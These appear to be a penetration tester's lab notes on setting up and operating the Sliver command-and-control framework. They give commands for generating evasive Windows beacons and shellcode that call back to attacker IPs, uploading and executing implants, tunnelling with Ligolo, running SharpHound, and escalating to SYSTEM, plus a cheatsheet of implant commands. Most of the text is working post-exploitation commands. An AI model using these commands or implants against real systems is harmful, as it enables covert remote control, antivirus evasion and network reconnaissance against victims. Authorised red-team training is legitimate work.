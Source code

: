 
## Dealing with Errors
I ran into a lot. Common issues included:

Outdated sliver binaries
Pre-existing ~/.sliver directory
No mingw compiler
## Installing Sliver

```bash

# Remove existing sliver stuff, run as sudo
rm /bin/sliver
rm /bin/sliver-server
rm -rf /root/.sliver
rm -rf ~/.sliver

# Below is the easy way
####### IF YOU DO IT BELOW, BEWARE OF ERRORS WITH OUTDATED VERSIONS DUE TO HARDCODED VERSION IN WGET URL ##################
wget -O /bin/sliver-server https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-server_linux 
chmod 755 /bin/sliver-server

wget -O /bin/sliver https://github.com/BishopFox/sliver/releases/download/v1.5.43/sliver-client_linux
chmod 755 /bin/sliver

# Windows C Compiler
sudo apt install mingw-w64

# Run as normal
# Unpack assets, as user
sliver-server unpack --force




```
We can make it run on startup by making a service
```bash
vi /etc/systemd/system/sliver.service
# Paste below file
```

```
[Unit]
Description=Sliver
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=on-failure
RestartSec=3
User=root
ExecStart=/bin/sliver-server daemon

[Install]
WantedBy=multi-user.target
```
Then
```bash
chmod 600 /etc/systemd/system/sliver.service
systemctl enable sliver && systemctl start sliver

# If you run into errors, it might be because sliver files already exist on your system, in /home/kali/.sliver, /root/.sliver, and ~/.sliver

# Check that the server is up
netstat -antopul


```

## Adding a New Operator
```bash
cd ~
sliver-server
# Review command
[server] sliver > help new-operator
# Listen on specific IP
[server] sliver > new-operator -n attacker -l tun0

# More generous allow

[server] sliver > new-operator -n attacker -l 0.0.0.0
# Enable multiplayer
[server] sliver > multiplayer

# New session
# Import the attacker config
sliver import attacker_0.0.0.0.cfg

# And boot sliver client
sliver


```

## Armory
Sliver's armory is a plugin system
```bash
# Get help
sliver > armory
# Install all
sliver > armory install all
```


## Generating Beacons
There's a lot of factors. The below generates a beacon that is called 'http_beacon', is a windows executable, listens on 127.0.0.1 (default port 80)
```bash
sliver > help generate beacon 
sliver > generate beacon --http 10.10.110.10 --os windows --evasion --seconds 5 --jitter 5

# One with a low delay/jitter
sliver > 
```

## Executing Ligolo
```bash
execute C:\\ProgramData\\lig.exe -connect 10.10.15.250:443 -ignore-cert
```

## Setting up a Listener
```bash
# Setup a listener for beacons on port 80
sliver > http --lport 80

# List active listeners
sliver > jobs

# Kill job 2, to free up listener on that port
sliver > kill -k 2 

```

## Using the Beacon

```bash
# List beacons
sliver > beacons
# Load an active beacon
sliver > use c44362b7

# List common commands
sliver > help

# Upload a file, note the double slashes
upload /home/kali/work/prolab/ligolo/ligolo-windows-agent.exe C:\\ProgramData\\ligolo-windows-agent.exe

# Upload a beacon
upload /home/kali/work/prolab/sliver/httpbeacon80fast.exe C:\\ProgramData\\fast.exe

# Execute that Beacon
sliver > execute powershell.exe -Command "Start-Process C:\\ProgramData\\fast2.exe"
# Run a command

# Executing SharpHound
sliver > execute-assembly /home/kali/work/prolab/net/SharpCollection/NetFramework_4.7_x64/SharpHound.exe -c all --zipfilename bloodhound.zip

# Spawn an interactive session

```

## Implants
Implants are basically a way of communicating. There are two types of implants: beacons (operate in intervals), and sessions (more immediate back and forth)
## Shellcode
Shellcode can be used to execute code and bypass AV's. Shellcode is usually executed by a droper.

Conceptually, the shellcode is hosted somewhere (usually your own server, and it's also usually obfuscated shellcode)

And the dropper is a simple program that accesses that hosted shellcode, and executes it.

```bash
sliver > generate beacon --arch amd64 --os windows --http 10.10.15.250:80 --format shellcode --evasion --timeout 300 --seconds 5 --jitter 1


```


## Cheatsheet

| **Command**                                                               | **Description**                                              |
| ------------------------------------------------------------------------- | ------------------------------------------------------------ |
| `help`                                                                    | Displays the commands and their descriptions                 |
| `http -L <Local IP> -l <Port>`                                            | Set up HTTP listener                                         |
| `profiles new --http <Local IP>:<Port> --format shellcode <Profile Name>` | Create a new C2 profile                                      |
| `stage-listener --url tcp://<Localhost:Port> --profile <Profile name>`    | Set up Stager listener                                       |
| `generate --http <Local IP>:<Port> --os <OS>`                             | Generates a session implant                                  |
| `generate beacon --http <Local IP>:<Port> --os <OS>`                      | Generates a beacon implant                                   |
| `sessions`                                                                | Lists active/inactive sessions                               |
| `sessions -K`                                                             | Removes all sessions available or not                        |
| `sessions prune`                                                          | Removes unavailable sessions                                 |
| `sessions -k -i <session>`                                                | Removes the specified session                                |
| `beacons`                                                                 | Lists active/inactive beacons                                |
| `tasks`                                                                   | Lists the pending or completed tasks ran by the operator     |
| `getsystem`                                                               | Attempts to get a session as NT AUTHORITY\SYSTEM             |
| `interactive`                                                             | Tasks the beacon to spawn a session that becomes interactive |
| `cd`                                                                      | Change directory                                             |
| `ls`                                                                      | Lists the contents of the directory                          |
| `download <file/directory>`                                               | Downloads a file/directory                                   |
| `upload`                                                                  | Uploads a file                                               |
| `execute-assembly`                                                        | Executes a .NET assembly in a child process                  |
| `execute-shellcode`                                                       | Executes the specified shellcode in process                  |
| `multiplayer`                                                             | Enables multiplayer mode on the server                       |
| `armory install <alias/extension>`                                        | Installs the given alias/extension                           |
| `armory install all`                                                      | Installs all of the available aliases/extensions             |